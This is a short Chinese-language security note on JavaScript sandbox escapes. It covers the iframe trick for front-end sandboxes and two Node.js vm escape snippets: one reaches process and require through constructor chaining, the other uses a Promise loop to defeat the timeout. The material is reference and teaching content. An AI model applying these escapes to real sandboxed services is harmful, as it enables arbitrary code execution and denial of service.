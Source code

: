 沙箱逃逸
========================================

前端沙箱
----------------------------------------
在前端中，可能会使用删除 ``eval`` ，重写 ``Function.prototype.constructor`` / ``GeneratorFunction`` / ``AsyncFunction`` 等方式来完成前端的沙箱。在这种情况下，可以使用创建一个新iframe的方式来获取新的执行环境。

服务端沙箱
----------------------------------------
JavaScript服务端通常会使用 ``vm`` 作为沙箱，在旧版的沙箱中，有以下几种逃逸方式。

.. code-block:: javascript

    const sandbox = {};
    const whatIsThis = vm.runInNewContext(`
        const ForeignObject = this.constructor;
        const ForeignFunction = ForeignObject.constructor;
        const process = ForeignFunction("return process")();
        const require = process.mainModule.require;
        require("fs");
    `, sandbox);

.. code-block:: javascript

    vm.runInNewContext(
      'Promise.resolve().then(()=>{while(1)console.log("foo", Date.now());}); while(1)console.log(Date.now())',
      {console:{log(){console.log.apply(console,arguments);}}},
      {timeout:5}
    );
